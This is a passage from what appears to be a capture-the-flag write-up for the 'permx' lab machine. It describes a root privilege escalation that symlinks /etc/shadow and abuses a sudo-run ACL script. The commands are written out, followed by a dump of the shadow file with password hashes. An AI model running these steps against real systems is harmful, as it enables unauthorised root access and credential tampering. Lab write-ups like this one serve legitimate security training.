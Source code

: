 ## Privilege Escalation to root

We basically tried to achieve the steps described in the resource of `GTFObins` and for doing so, we abused `symlinks` to link a file outside our `home directory` to change the permissions of it and to make it accessible to us.

- [https://gtfobins.github.io/gtfobins/setfacl/#sudo](https://gtfobins.github.io/gtfobins/setfacl/#sudo)

For our first approach we picked `/etc/shadow` and linked it to an `arbitrary filename` in our `home directory`.

```c
mtz@permx:~$ ln -s /etc/shadow /home/mtz/shadow_link
```

We set `rwx` permissions on it by using the script with `sudo` and since we then were able to read and also write `/etc/shadow`, we copied the `hash` of `mtz` to `root` and saved it.

```c
mtz@permx:~$ sudo /opt/acl.sh mtz rwx /home/mtz/shadow_link
```

```c
mtz@permx:~$ cat /etc/shadow
root:$y$j9T$VEMcaSLaOOvSE3mYgRXRv/$tNXYdTRyCAkwoSHhlyIoCS91clvPEp/hh0r4NTBlmS7:19742:0:99999:7:::
daemon:*:19579:0:99999:7:::
bin:*:19579:0:99999:7:::
sys:*:19579:0:99999:7:::
sync:*:19579:0:99999:7:::
games:*:19579:0:99999:7:::
man:*:19579:0:99999:7:::
lp:*:19579:0:99999:7:::
mail:*:19579:0:99999:7:::
news:*:19579:0:99999:7:::
uucp:*:19579:0:99999:7:::
proxy:*:19579:0:99999:7:::
www-data:*:19579:0:99999:7:::
backup:*:19579:0:99999:7:::
list:*:19579:0:99999:7:::
irc:*:19579:0:99999:7:::
gnats:*:19579:0:99999:7:::
nobody:*:19579:0:99999:7:::
_apt:*:19579:0:99999:7:::
systemd-network:*:19579:0:99999:7:::
systemd-resolve:*:19579:0:99999:7:::
messagebus:*:19579:0:99999:7:::
systemd-timesync:*:19579:0:99999:7:::
pollinate:*:19579:0:99999:7:::
sshd:*:19579:0:99999:7:::
syslog:*:19579:0:99999:7:::
uuidd:*:19579:0:99999:7:::
tcpdump:*:19579:0:99999:7:::
tss:*:19579:0:99999:7:::
landscape:*:19579:0:99999:7:::
fwupd-refresh:*:19579:0:99999:7:::
usbmux:*:19742:0:99999:7:::
mtz:$y$j9T$RUjBgvOODKC9hyu5u7zCt0$Vf7nqZ4umh3s1N69EeoQ4N5zoid6c2SlGb1LvBFRxSB:19742:0:99999:7:::
lxd:!:19742::::::
mysql:!:19742:0:99999:7:::
```
